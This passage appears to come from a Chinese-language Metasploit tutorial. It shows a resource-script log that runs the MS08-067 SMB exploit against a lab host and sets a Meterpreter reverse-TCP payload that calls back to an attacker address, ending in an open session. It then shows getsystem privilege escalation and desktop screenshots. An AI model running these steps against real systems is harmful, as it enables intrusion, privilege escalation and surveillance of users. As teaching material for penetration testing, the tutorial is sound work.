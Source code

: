 ```javascript
```

msf中加载资源文件实现自动化攻击：
```javascript


msf > resource auto_msf_08.rc 
[*] Processing /usr/share/metasploit-framework/scripts/resource/auto_msf_08.rc for ERB directives.
resource (/usr/share/metasploit-framework/scripts/resource/auto_msf_08.rc)> use exploit/windows/smb/ms08_067_netapi
resource (/usr/share/metasploit-framework/scripts/resource/auto_msf_08.rc)> set RHOST 10.10.10.130
RHOST => 10.10.10.130
resource (/usr/share/metasploit-framework/scripts/resource/auto_msf_08.rc)> set payload windows/meterpreter/reverse_tcp_allports
payload => windows/meterpreter/reverse_tcp_allports
resource (/usr/share/metasploit-framework/scripts/resource/auto_msf_08.rc)> set LHOST 10.10.10.134
LHOST => 10.10.10.134
resource (/usr/share/metasploit-framework/scripts/resource/auto_msf_08.rc)> set target 3
target => 3
resource (/usr/share/metasploit-framework/scripts/resource/auto_msf_08.rc)> exploit

[*] Started reverse TCP handler on 10.10.10.134:1 
[*] Attempting to trigger the vulnerability...
[*] Sending stage (957487 bytes) to 10.10.10.130
[*] Meterpreter session 4 opened (10.10.10.134:1 -> 10.10.10.130:2977) at 2016-03-03 00:17:53 -0500

meterpreter > 
```


## Meterpreter

Meterpreter是Metasploit框架的一个扩展模块，可以调用Metasploit一些功能，对目标系统进行更为深入的渗透，这些功能包括反追踪、纯内存工作模式、密码哈希值获取、特权提升、跳板攻击等等。

在攻击返回meterpreter会话之后，使用meterpreter模块的命令。

### **`getsystem`命令，通过各种向量攻击提升权限**

```javascript
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```


**`screenshot`命令刻意获取活动用户的桌面截屏并保存到对应路径**，可以通过桌面快捷方式判断目标系统安装的软件。
